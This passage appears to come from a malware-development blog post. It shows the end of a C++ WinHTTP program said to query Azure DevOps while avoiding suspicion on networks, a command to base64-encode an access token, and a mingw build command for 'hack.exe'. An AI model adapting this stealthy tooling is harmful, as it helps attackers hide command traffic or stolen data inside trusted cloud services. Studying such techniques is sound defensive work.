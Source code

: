 ```cpp
  // get response
  while (WinHttpReadData(hRequest, buffer, sizeof(buffer) - 1, &bytesRead) && bytesRead > 0) {
    buffer[bytesRead] = '\0';
    printf("%s", buffer);
  }
 
  WinHttpCloseHandle(hRequest);
  WinHttpCloseHandle(hConnect);
  WinHttpCloseHandle(hSession);
  return 0;
} 
```

As you can see, this is a program with minimal helper logic: this is enough to pull metadata from Azure DevOps without triggering anything suspicious in most network setups.      

Just replace with your own token:     

```bash
echo -n ":9O1QFlG1...QQJ99BHACAAAAAAAAAAAAASAZDOOcAA" | base64
```

![malware](/assets/images/171/2025-08-11_15-14.png){:class="img-responsive"}    

### demo 1

Let's go to see first example in action. Compile it:    

```bash
x86_64-w64-mingw32-g++ hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -lwinhttp
```

![malware](/assets/images/171/2025-08-11_14-47.png){:class="img-responsive"}    
